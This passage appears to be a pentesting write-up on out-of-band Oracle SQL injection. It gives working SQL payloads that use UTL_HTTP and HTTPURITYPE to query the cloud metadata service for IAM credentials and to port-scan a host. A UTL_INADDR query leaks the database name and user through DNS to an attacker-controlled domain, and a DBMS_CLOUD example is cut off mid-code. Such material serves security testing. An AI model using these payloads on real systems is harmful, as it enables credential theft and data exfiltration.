 **UTL_HTTP and Web Requests**

Perhaps the most common and widely documented technique in every Out of Band Oracle SQL Injection tutorial out there is the [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). This package is defined by the documentation as - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`

```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
```
You could additionally, use this to perform some rudimentary port scanning as well with queries like

```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
```
A `ORA-12541: TNS:no listener` or a `TNS:operation timed out` is a sign that the TCP port is closed, whereas a `ORA-29263: HTTP protocol error` or data is a sign that the port is open.

Another package I have used in the past with varied success is the [`GETCLOB()` method of the `HTTPURITYPE` Oracle abstract type](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) that allows you to interact with a URL and provides support for the HTTP protocol. The `GETCLOB()` method is used to fetch the GET response from a URL as a [[https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html|CLOB data type.]]

```
SELECT HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() FROM dual;
```
```
---

## Additional Packages & Techniques (Oracle 19c → 23c)

### UTL_INADDR – DNS-based exfiltration and host discovery

`UTL_INADDR` exposes simple name-resolution helpers that trigger an outbound DNS lookup from the database host.  Because only a domain is required (no port/ACL needed) it is a reliable primitive for blind-exfil when other network callouts are blocked.

```sql
-- Leak the DB name and current user via a DNS query handled by Burp Collaborator
SELECT UTL_INADDR.get_host_address(
         (SELECT name FROM v$database)||'.'||(SELECT user FROM dual)||
         '.attacker.oob.server') FROM dual;
```
```
`get_host_address()` returns the resolved IP (or raises `ORA-29257` if resolution fails).  The attacker only needs to watch for the incoming DNS request on the controlled domain to confirm code execution.

### DBMS_CLOUD.SEND_REQUEST – full HTTP client on Autonomous/23c

Recent cloud-centric editions (Autonomous Database, 21c/23c, 23ai) ship with `DBMS_CLOUD`.  The `SEND_REQUEST` function acts as a general-purpose HTTP client that supports custom verbs, headers, TLS and large bodies, making it far more powerful than the classical `UTL_HTTP`.

```sql
-- Assuming the current user has CREATE CREDENTIAL and network ACL privileges
BEGIN
  -- empty credential when no auth is required
  DBMS_CLOUD.create_credential(
      credential_name => 'NOAUTH',
```